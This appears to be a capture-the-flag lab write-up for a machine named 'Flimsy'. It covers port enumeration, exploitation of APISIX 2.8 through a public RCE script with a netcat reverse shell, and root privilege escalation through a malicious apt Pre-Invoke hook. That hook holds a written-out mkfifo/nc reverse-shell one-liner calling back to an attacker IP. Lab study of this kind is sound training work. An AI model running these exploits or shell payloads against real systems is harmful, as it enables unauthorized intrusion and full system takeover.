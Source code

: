 # Flimsy
## Information Gathering
#### Ports/Services
22/tcp      ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

80/tcp      http       nginx 1.18.0 (Ubuntu)

3306/tcp    mysql      MySQL (unauthorized)

8080/tcp closed http-proxy


## Enumeration
### Nmap scan
```bash
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp    open   http       nginx 1.18.0 (Ubuntu)
|_http-title: Upright
|_http-server-header: nginx/1.18.0 (Ubuntu)
3306/tcp  open   mysql      MySQL (unauthorized)
8080/tcp  closed http-proxy
43500/tcp open   http       OpenResty web app server
|_http-title: Site doesnt have a title (text/plain; charset=utf-8).
|_http-server-header: APISIX/2.8
```

### 22/tcp OpenSSH 8.2p1


### 80/tcp nginx 1.18.0
- Ran Gobuster
```bash
gobuster dir -u http://192.168.122.220/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt,bak,sh -o gob/tcp80_root.gob

/img                  (Status: 301) [Size: 178] [--> http://192.168.122.220/img/]
/index.html           (Status: 200) [Size: 50895]                                
/css                  (Status: 301) [Size: 178] [--> http://192.168.122.220/css/]
/js                   (Status: 301) [Size: 178] [--> http://192.168.122.220/js/] 
/slick                (Status: 301) [Size: 178] [--> http://192.168.122.220/slick/]
```

`/slick`
***
- Get 403 when attempting to connect
- Gobuster `/slick`
```bash
gobuster dir -u http://192.168.122.220/slick/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt,bak,sh,lua -o gob/tcp80_slick.gob

/fonts                (Status: 301) [Size: 178] [--> http://192.168.122.220/slick/fonts/]
/LICENSE              (Status: 200) [Size: 1071]
```

### 3306/tcp 
- Ran nmap scap against 3306
```bash
sudo nmap -p3306 --script=mysql-* 192.168.122.220 -oN nmap/tcp3306_mysql.nmap

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-enum: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
|_mysql-empty-password: Host '192.168.49.122' is not allowed to connect to this MySQL server
| mysql-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 50009 guesses in 146 seconds, average tps: 335.5

```

### 43500/tcp
- According to full nmap scan - `OpenResty web app server`
- Looking at HTTP HEADER 
```bash
curl -I "http://192.168.122.220:43500/"

HTTP/1.1 404 Not Found
Date: Wed, 04 Jan 2023 01:58:05 GMT
Content-Type: text/plain; charset=utf-8
Connection: keep-alive
Server: APISIX/2.8
```

- Exploits for APISIX/2.8 
	- [RCE](https://www.exploit-db.com/exploits/50829) - TRUE POSITIVE
- Using exploit
```bash
./apisix_rce.py http://192.168.122.220:43500/ 192.168.49.122 53
```
- Catches a reverse shell
```bash
nc -lnvp 53
listening on [any] 53 ...
connect to [192.168.49.122] from (UNKNOWN) [192.168.122.220] 37688
id
uid=65534(franklin) gid=65534(nogroup) groups=65534(nogroup)
```

## Exploitation
- Using [this](https://www.exploit-db.com/exploits/50829) exploit, we can exploit a remote code execution vulnerability and catch a reverse shell
```bash
./apisix_rce.py http://192.168.122.220:43500/ 192.168.49.122 53
```
- Catches a reverse shell
```bash
nc -lnvp 53
listening on [any] 53 ...
connect to [192.168.49.122] from (UNKNOWN) [192.168.122.220] 37688
id
uid=65534(franklin) gid=65534(nogroup) groups=65534(nogroup)
```


## Privilege Escalation
### Enumeration
- Upon foothold, we drop right into `/root`
- Running linpeas.sh on the victim we get two interesting cronjobs running at all times
```bash
* * * * * root apt-get update
* * * * * root /root/run.sh
```
- At first I thought I had to use the exploit that got me foothold to write to `/root/run.sh`. 
- There is a great privilege escalation via `apt-get update` from this [article](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)
	- We do have write ability at `/etc/apt/apt.conf.d`
	- Writing a  payload to `pwn` - `echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.250 1234 >/tmp/f"};' > pwn`
	- After a few moments I caught a reverse shell as root